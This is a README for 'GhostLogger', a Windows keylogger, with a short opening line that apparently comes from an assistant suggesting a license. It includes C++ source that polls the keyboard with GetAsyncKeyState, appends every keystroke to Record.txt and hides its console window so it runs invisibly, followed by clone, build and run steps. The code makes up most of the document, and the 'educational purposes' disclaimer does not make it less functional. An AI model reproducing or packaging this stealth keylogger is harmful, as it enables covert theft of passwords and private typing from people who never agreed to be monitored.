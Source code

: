 Given the nature of the project, it's important to choose a license that reflects the educational intent and discourages misuse. A more restrictive license like the **Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0)** might be more appropriate. Here’s an updated README.md with this license:

# GhostLogger 👻🖥️

Welcome to **GhostLogger**, a stealthy and efficient keylogging application for Windows! Designed for educational purposes and to demonstrate low-level Windows programming techniques, GhostLogger captures and records keystrokes in a hidden manner.

## Features 🌟
- **Stealth Mode**: Runs invisibly in the background.
- **Comprehensive Key Logging**: Captures a wide range of keys, including alphabetic characters, numeric keys, function keys, control keys, and special characters.
- **Log File**: Records all keystrokes in `Record.txt`.

## Project Structure 📁
```
GhostLogger
├───.vscode
│   ├───c_cpp_properties.json
│   ├───settings.json
│   └───tasks.json
└───src
    ├───main.cpp
    └───Record.txt
```

## How It Works 🛠️
The main functionality is encapsulated in `main.cpp`, which includes the following key components:
- **KeyLogger**: A function that captures keystrokes using `GetAsyncKeyState` and writes them to `Record.txt`.
- **hide_exe**: A function that hides the console window to ensure the program runs invisibly.

### Code Overview 👨‍💻
Here's a brief look at the core code in `main.cpp`:

```cpp
#include <iostream>
#include <windows.h>
#include <winuser.h>
#include <fstream>

// Function prototypes
void KeyLogger(void);
void hide_exe();

// main function
int main(void)
{
    hide_exe();
    KeyLogger();
}

// function to capture the keystrokes
void KeyLogger(void)
{
    char character;

    while (true)
    {
        for (character = 8; character <= 222; character++)
        {
            if (GetAsyncKeyState(character) == -32767)
            {
                std::ofstream write("Record.txt", std::ios::app);
                if (character > 64 && character < 91 && !GetAsyncKeyState(0x10))
                {
                    character += 32;
                    write << character;
                }
                else if (character > 64 && character < 91)
                {
                    write << character;
                }

                switch (character)
                {
                    case 39: // '
                        write << (GetAsyncKeyState(0x10) ? "\"" : "'");
                        break;
                    case 44: // ,
                        write << (GetAsyncKeyState(0x10) ? "<" : ",");
                        break;
                    // ... handle other cases ...
                    case VK_RETURN: // ENTER key
                        write << " <Enter> " << std::endl;
                        break;
                    case 32: // Space key
                        write << " ";
                        break;
                    // ... handle other cases ...
                }
            }
        }
    }
}

// function to hide the exe file.
void hide_exe()
{
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);
    ShowWindow(stealth, 0);
}
```

## Getting Started 🚀
To run GhostLogger on your machine, follow these steps:

1. **Clone the Repository**:
   ```sh
   git clone https://github.com/yourusername/GhostLogger.git
   ```
2. **Open in VSCode**:
   ```sh
   code GhostLogger
   ```
3. **Build and Run**:
   - Make sure you have a C++ compiler installed.
   - Compile and run `main.cpp` using your preferred method or directly through VSCode's built-in tasks.

## Usage ⚙️
- Once the program is running, it will operate in the background, logging all keystrokes to `Record.txt`.
- To stop the program, you will need to end the process through Task Manager or by terminating it via your development environment.

## Legal Disclaimer ⚖️
This project is intended for educational purposes only. Unauthorized use of keylogging software is illegal and unethical. Always ensure you have explicit permission before using this software on any device.

## Connect with Me 🌐
I'm always looking to expand my professional network and explore new opportunities. Let's connect!
- [LinkedIn](https://www.linkedin.com/in/yourprofile)
- [Twitter](https://twitter.com/yourhandle)
- [Email](mailto:youremail@example.com)

## License 📜
This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International License. See the [LICENSE](LICENSE) file for details.

---

Made with ❤️ by [Your Name](https://github.com/yourusername)

Happy Coding! 🎉

